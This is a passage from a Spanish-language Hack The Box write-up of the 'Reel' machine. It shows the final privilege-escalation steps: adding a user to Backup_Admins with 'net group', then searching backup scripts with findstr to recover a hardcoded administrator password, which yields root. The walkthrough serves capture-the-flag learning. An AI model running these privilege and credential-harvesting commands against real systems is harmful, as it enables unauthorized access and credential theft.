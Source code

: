 
```powershell
PS C:\Users\claire\Desktop> net group Backup_Admins claire /add                                                                 
The command completed successfully.                                                                                             

PS C:\Users\claire\Desktop> 
```

Logramos entrar a la carpeta admin.

## Fase final:

Entramos en la carpeta Desktop\Backups, y encontramos muchos scripts.

```powershell
PS C:\Users\Administrator\Desktop\Backup Scripts> dir                                                                           


    Directory: C:\Users\Administrator\Desktop\Backup Scripts                                                                    


Mode                LastWriteTime     Length Name                                                                               
----                -------------     ------ ----                                                                               
-a---         11/3/2017  11:22 PM        845 backup.ps1                                                                         
-a---         11/2/2017   9:37 PM        462 backup1.ps1                                                                        
-a---         11/3/2017  11:21 PM       5642 BackupScript.ps1                                                                   
-a---         11/2/2017   9:43 PM       2791 BackupScript.zip                                                                   
-a---         11/3/2017  11:22 PM       1855 folders-system-state.txt                                                           
-a---         11/3/2017  11:22 PM        308 test2.ps1.txt                                                                      


PS C:\Users\Administrator\Desktop\Backup Scripts> 

```

Procedemos a ser un filtrado por una palabra clave y encontramos:

```powershell

PS C:\Users\Administrator\Desktop\Backup Scripts> type * | findstr "password"                                                   
# admin password                                                                                                                
$password="Cr4ckMeIfYouC4n!"                                                                                                    
PS C:\Users\Administrator\Desktop\Backup Scripts> 
```
Accedimos como root.

![](/assets/images/htb-writeup-reel/root.png)
